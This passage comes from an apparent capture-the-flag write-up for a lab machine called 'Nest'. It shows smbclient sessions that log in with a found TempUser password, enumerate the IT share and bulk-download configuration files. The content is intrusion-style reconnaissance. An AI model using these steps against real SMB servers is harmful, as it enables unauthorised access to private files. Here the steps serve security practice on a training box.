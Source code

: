 Trying to Put/upload  `test.txt` file and got Access Denied
```
smb: \TempUser\> put test.txt
NT_STATUS_ACCESS_DENIED opening remote file \TempUser\test.txt
```

Trying to access `Data` share again with the TempUser Credentials
```
# smbclient -U 'Tempuser' -p 'welcome2019' //nest.htb/Data 
Password for [WORKGROUP\Tempuser]:
smb: \> cd IT
smb: \IT\> dir
  .                                   D        0  Wed Aug  7 18:58:07 2019
  ..                                  D        0  Wed Aug  7 18:58:07 2019
  Archive                             D        0  Mon Aug  5 18:33:58 2019
  Configs                             D        0  Wed Aug  7 18:59:34 2019
  Installs                            D        0  Wed Aug  7 18:08:30 2019
  Reports                             D        0  Sat Jan 25 19:09:13 2020
  Tools                               D        0  Mon Aug  5 18:33:43 2019
```

Now we have access of some other folders/directories. 

```
smb: \IT\Configs\Adobe\> mget *
Get file editing.xml? yes
getting file \IT\Configs\Adobe\editing.xml of size 246 as editing.xml (1.9 KiloBytes/sec) (average 1.9 KiloBytes/sec)
Get file Options.txt? yes
getting file \IT\Configs\Adobe\Options.txt of size 0 as Options.txt (0.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
Get file projects.xml? yes
getting file \IT\Configs\Adobe\projects.xml of size 258 as projects.xml (1.8 KiloBytes/sec) (average 1.3 KiloBytes/sec)
Get file settings.xml? yes
getting file \IT\Configs\Adobe\settings.xml of size 1274 as settings.xml (9.3 KiloBytes/sec) (average 3.4 KiloBytes/sec)
smb: \IT\Configs\Adobe\> 
```

#### Finding the source code.

Upon login with the TempUser credentials I notice that the `dir` command was throwing  the `NT_STATUS_ACCESS_DENIED` Error but upon reviewing the `config.xml` file which I have downloaded earlier, I notice the presence of directory name `Carl`.

```
smb: \IT\> dir
NT_STATUS_ACCESS_DENIED listing \IT\*
```

![](Nest_SMB1.png)

